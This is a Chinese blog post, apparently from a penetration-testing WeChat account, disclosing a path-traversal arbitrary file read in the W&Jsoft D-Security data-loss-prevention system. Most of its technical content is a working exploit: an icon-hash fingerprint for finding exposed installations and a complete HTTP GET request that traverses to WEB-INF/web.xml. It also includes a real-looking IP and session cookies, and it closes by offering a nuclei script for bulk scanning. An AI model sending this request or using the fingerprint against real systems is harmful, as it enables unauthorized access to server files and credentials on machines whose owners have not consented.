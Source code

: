 #  W&Jsoft-D-Security数据仿泄露系统(DLP)存在任意文件读取漏洞   
原创 菜鸟学渗透  菜鸟学渗透   2025-01-06 00:30  
  
# 一、漏洞简介  
  
W&Jsoft-D-Security数据防泄露系统(DLP)存在的任意文件读取漏洞，源于对用户输入路径缺乏充分验证，攻击者可通过构造路径穿越字符读取服务器上的任意文件，可能导致敏感信息泄露，如配置文件、用户数据等。建议通过严格的输入验证、权限控制及及时更新补丁来修复漏洞，降低安全风险。  
# 二、影响版  
- W&Jsoft-D-Security  
![](https://mmbiz.qpic.cn/mmbiz_png/hZGcrKavvZlfgEJuJBFozicDdVjWznnGV68KOia7uuK3jyWdllxDThBxT9ZWibut8IqhPjXKdR2EibK3jSicYKygbrg/640?wx_fmt=png&from=appmsg "")  
  
# 三、资产测绘  
```
icon_hash="616947260"
```  
# 四、漏洞复现  
```
GET /DLP/public/admintool/system_setting/sys_ds_logfile_displaylog.jsp?logType=tomcat&logFileName=../../../../../../D-Security/webapps/DLPWebApps/WEB-INF/web.xml HTTP/1.1
Host: *
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://61.221.47.31/index.jsp
Connection: close
Cookie: JSESSIONID=44847BC29677B26A366D3553E29B1C20; JSESSIONID=87868E75291058EC00F04CA08B8749C2
Upgrade-Insecure-Requests: 1
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hZGcrKavvZlfgEJuJBFozicDdVjWznnGVgdnXvLBGHoh4oYhGlibXO42sLaliaa0IJHib1h5dBj0InlRicxrCRjVUZQ/640?wx_fmt=png&from=appmsg "")  
  
记得点赞+关注，关注微信公众号  
菜鸟学渗透  
获取最新文章，有任何问题可以后台私信我。  
  
后台回复“   
 nuclei-WJsoft-D-File-Read  
”即可获取nuclei批量扫描脚本  
  
有考取NISP一级/二级/三级、CISP-PTE/PTS等证书的可以加我好友私信我（公众号回复“  
加好友  
”）。  
  
